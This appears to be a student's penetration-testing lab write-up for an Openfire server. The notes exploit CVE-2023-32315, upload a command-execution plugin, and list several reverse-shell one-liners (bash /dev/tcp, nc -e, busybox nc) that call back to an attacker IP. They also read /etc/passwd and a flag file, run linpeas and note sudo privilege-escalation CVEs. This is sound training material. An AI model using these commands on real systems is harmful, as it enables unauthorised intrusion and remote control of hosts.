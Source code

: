 ![[Cybersecurity-Resources/images/Pasted image 20241012115719.png]]

---
# Exploitation
## CVE-2023-32315
- Found `CVE-2023-32315.py` exploit at [https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT], copied to local host and ran `python3 CVE-2023-32315.py -u http://192.168.215.96:9090`
![[Cybersecurity-Resources/images/Pasted image 20241012115241.png]]
- Used newly created credentials `hugme:HugmeNOW` to login to `Openfire` console
![[Cybersecurity-Resources/images/Pasted image 20241012115409.png]]

---
# Lateral Movement to user
## Local Enumeration
- Navigated to `server information` and found details on target host
![[Cybersecurity-Resources/images/Pasted image 20241012120146.png]]
- Navigated to Security Audit Log Viewer and identified `b99aid` has logged into admin console
![[Cybersecurity-Resources/images/Pasted image 20241012120313.png]]
- Conducted further research and found similar exploit with additional instructions at [https://github.com/miko550/CVE-2023-32315]. Downloaded `openfire-management-tool-plugin.jar` and uploaded to Openfire "Plugins" tab
![[Cybersecurity-Resources/images/Pasted image 20241012121734.png]]
- Navigated to "Server > Server Settings > Management Tool > System Command" and tested command execution
![[Cybersecurity-Resources/images/Pasted image 20241012121905.png]]
- Ran `nc -nvlp 4444` to setup netcat listener on local host
- Tested multiple reverse shell commands on target including;
	- `/bin/sh -i >& /dev/tcp/192.168.45.250/4444 0>&1`
	- `nc 192.168.45.250 4444 -e /bin/sh`
	- `nc -c /bin/sh 192.168.45.250 4444`
	- `ncat 192.168.45.250 4444 -e /bin/sh`
	- `busybox nc 192.168.45.250 4444 -e /bin/sh`
- Achieved reverse shell with `busybox nc 192.168.45.250 4444 -e /bin/sh` as user `openfire`
![[Cybersecurity-Resources/images/Pasted image 20241012122500.png]]
- Ran `cat /home/openfire/local.txt` to print `80a99c502edc13ab1a6b38ee03c9b7b9`
![[Cybersecurity-Resources/images/Pasted image 20241012122729.png]]
---
# Privilege Escalation
## Local Enumeration
- Ran `sudo -l` - requires password for `openfire`
![[Cybersecurity-Resources/images/Pasted image 20241012122834.png]]
- Ran `cat /etc/passwd` to find other users
![[Cybersecurity-Resources/images/Pasted image 20241012123225.png]]
- Uploaded `linpeas.sh` to directory `/usr/share/plugins` and ran `./linpeas.sh`
![[Cybersecurity-Resources/images/Pasted image 20241012123812.png]]
 - Identified `sudo` version 1.8.3 - potentially vulnerable to CVE-2021-3156
![[Cybersecurity-Resources/images/Pasted image 20241012101046.png]]
-  Identified vulnerable to CVE-2021-3560